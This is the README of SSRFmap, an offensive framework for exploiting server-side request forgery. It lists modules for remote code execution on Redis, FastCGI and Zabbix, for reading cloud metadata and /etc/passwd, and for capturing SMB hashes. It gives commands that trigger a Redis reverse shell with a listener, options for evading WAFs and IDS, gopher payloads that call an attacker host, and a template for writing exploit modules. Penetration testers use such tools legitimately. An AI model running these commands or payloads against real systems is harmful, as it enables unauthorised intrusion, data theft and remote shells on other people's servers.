# SSRFmap [![Python 3.4+](https://img.shields.io/badge/python-3.4+-blue.svg)](https://www.python.org/downloads/release/python-360/) [![Rawsec's CyberSecurity Inventory](https://inventory.rawsec.ml/img/badges/Rawsec-inventoried-FF5050_flat.svg)](https://inventory.rawsec.ml/)


SSRF are often used to leverage actions on other services, this framework aims to find and exploit these services easily. SSRFmap takes a Burp request file as input and a parameter to fuzz.

> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.

## Summary

* [Modules](#modules)
* [Install and Manual](#install-and-manual)
* [Examples](#examples)
* [SSRFmap - Tests](#ssrfmap-tests)
* [Contribute](#contribute)
  * [Contributors](#thanks-to-the-contributors)


## Modules

The following modules are already implemented and can be used with the `-m` argument.

| Name           | Description    |
| :------------- | :------------- |
| `fastcgi`      | FastCGI RCE |
| `redis`        | Redis RCE |
| `github`       | Github Enterprise RCE < 2.8.7 |
| `zabbix`       | Zabbix RCE |
| `mysql`        | MySQL Command execution |
| `docker`       | Docker Infoleaks via API |
| `smtp`         | SMTP send mail |
| `portscan`     | Scan top 8000 ports for the host |
| `networkscan`  | HTTP Ping sweep over the network |
| `readfiles`    | Read files such as `/etc/passwd` |
| `alibaba`      | Read files from the provider (e.g: meta-data, user-data) |
| `aws`          | Read files from the provider (e.g: meta-data, user-data) |
| `gce`          | Read files from the provider (e.g: meta-data, user-data) |
| `digitalocean` | Read files from the provider (e.g: meta-data, user-data) |
| `socksproxy`   | SOCKS4 Proxy |
| `smbhash`      | Force an SMB authentication via a UNC Path |
| `tomcat`       | Bruteforce attack against Tomcat Manager |
| `custom`       | Send custom data to a listening service, e.g: netcat |
| `memcache`     | Store data inside the memcache instance |


## Install and Manual

Basic install from the Github repository.

```powershell
$ git clone https://github.com/swisskyrepo/SSRFmap
$ cd SSRFmap/
$ pip3 install -r requirements.txt
$ python3 ssrfmap.py

  usage: ssrfmap.py [-h] [-r REQFILE] [-p PARAM] [-m MODULES] [-l HANDLER]
                    [-v [VERBOSE]] [--lhost LHOST] [--lport LPORT]
                    [--uagent USERAGENT] [--ssl [SSL]] [--level [LEVEL]]

  optional arguments:
    -h, --help          show this help message and exit
    -r REQFILE          SSRF Request file
    -p PARAM            SSRF Parameter to target
    -m MODULES          SSRF Modules to enable
    -l HANDLER          Start an handler for a reverse shell
    -v [VERBOSE]        Enable verbosity
    --lhost LHOST       LHOST reverse shell
    --lport LPORT       LPORT reverse shell
    --uagent USERAGENT  User Agent to use
    --ssl [SSL]         Use HTTPS without verification
    --level [LEVEL]     Level of test to perform (1-5, default: 1)
```

## Examples

First you need a request with a parameter to fuzz, Burp requests works well with SSRFmap. 
They should look like the following. More examples are available in the **/data** folder.

```powershell
POST /ssrf HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mysimple.ssrf/
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Connection: close
Upgrade-Insecure-Requests: 1

url=https%3A%2F%2Fwww.google.fr
```

Use the `-m` followed by module name (separated by a `,` if you want to launch several modules).

```powershell
# Launch a portscan on localhost and read default files
python ssrfmap.py -r data/request.txt -p url -m readfiles,portscan
```

If you need to have a custom user-agent use the `--uagent`. Some targets will use HTTPS, you can enable it with `--ssl`.

```powershell
# Launch a portscan against an HTTPS endpoint using a custom user-agent
python ssrfmap.py -r data/request.txt -p url -m portscan --ssl --uagent "SSRFmapAgent"
```

Some modules allow you to create a connect back, you have to specify LHOST and LPORT. Also SSRFmap can listen for the incoming reverse shell.

```powershell
# Triggering a reverse shell on a Redis
python ssrfmap.py -r data/request.txt -p url -m redis --lhost=127.0.0.1 --lport=4242 -l 4242

# -l create a listener for reverse shell on the specified port
# --lhost and --lport work like in Metasploit, these values are used to create a reverse shell payload
```

When the target is protected by a WAF or some filters you can try a wide range of payloads and encoding with the parameter `--level`.

```powershell
# --level : ability to tweak payloads in order to bypass some IDS/WAF. e.g: 127.0.0.1 -> [::] -> 0000: -> ...
```

## SSRFmap Tests

A quick way to test the framework can be done with `data/example.py` SSRF service.

```powershell
FLASK_APP=data/example.py flask run &
python ssrfmap.py -r data/request.txt -p url -m readfiles
```

## Contribute

I :heart: pull requests :)
Feel free to add any feature listed below or a new service.
  - Redis PHP Exploitation 
  - HTTP module (Jenkins ?)
  ```powershell
  gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
  gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
  ```

The following code is a template if you wish to add a module interacting with a service.

```python
from core.utils import *
import logging

name          = "servicename in lowercase"
description   = "ServiceName RCE - What does it do"
author        = "Name or pseudo of the author"
documentation = ["http://link_to_a_research", "http://another_link"]

class exploit():
    SERVER_HOST = "127.0.0.1"
    SERVER_PORT = "4242"

    def __init__(self, requester, args):
        logging.info("Module '{}' launched !".format(name))

        # Handle args for reverse shell
        if args.lhost == None: self.SERVER_HOST = input("Server Host:")
        else:                  self.SERVER_HOST = args.lhost

        if args.lport == None: self.SERVER_PORT = input("Server Port:")
        else:                  self.SERVER_PORT = args.lport

        # Data for the service
        # Using a generator to create the host list
        # Edit the following ip if you need to target something else
        gen_host = gen_ip_list("127.0.0.1", args.level)
        for ip in gen_host:
            port = "6379"
            data = "*1%0d%0a$8%0d%0aflus[...]%0aquit%0d%0a"
            payload = wrapper_gopher(data, ip , port)

            # Handle args for reverse shell
            payload = payload.replace("SERVER_HOST", self.SERVER_HOST)
            payload = payload.replace("SERVER_PORT", self.SERVER_PORT)

            # Send the payload
            r = requester.do_request(args.param, payload)
```

You can also contribute with a beer IRL or via Github Sponsor button.

### Thanks to the contributors

- [ttffdd](https://github.com/ttffdd)

## Inspired by

- [All you need to know about SSRF and how may we write tools to do auto-detect - Auxy](https://medium.com/bugbountywriteup/the-design-and-implementation-of-ssrf-attack-framework-550e9fda16ea)
- [How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE! - Orange Tsai](https://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
- [Blog on Gopherus Tool  -SpyD3r](https://spyclub.tech/2018/08/14/2018-08-14-blog-on-gopherus/)
- [Gopherus - Github](https://github.com/tarunkant/Gopherus)
- [SSRF testing - cujanovic](https://github.com/cujanovic/SSRF-Testing)
